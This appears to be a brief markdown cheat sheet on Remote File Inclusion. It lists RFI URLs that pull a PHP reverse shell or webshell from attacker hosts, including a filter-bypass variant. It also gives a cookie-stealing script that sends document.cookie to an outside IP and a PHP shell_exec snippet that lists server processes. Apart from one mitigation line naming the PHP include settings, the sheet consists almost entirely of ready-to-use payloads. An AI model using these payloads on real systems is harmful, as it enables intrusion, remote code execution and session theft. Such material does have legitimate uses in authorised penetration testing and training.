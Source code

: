 # Remote File Inclusion

## Exploit
- ```http://127.0.0.1/vulnerabilities/fi/?page=http://192.168.72.200:9999/php-reverse-shell.php```
- ```index.php?page=http://attackerIP/webshell.php``` 
- ```index.php?page=htthttpp://attackerIP/webshell.php```
- ```?page=hTTp://10.20.14.203/reverse.txt?```
## Payloads
- Steal Cookie with "getcookie.txt"
```HTML
<img id="img" src="">
<script>
document.getElementById("img").src="http://192.123.219.2/?cookie="+document.cookie
</script>
```
- Process list of the target server with "shell.php"
```PHP
<?php
$output=shell_exec(“ps -eaf”);
echo “<pre>”.$output.“</pre>”;
?>
```

## Mitigation
-  Disable ```allow_url_fopen = On``` & ```allow_url_include = On```
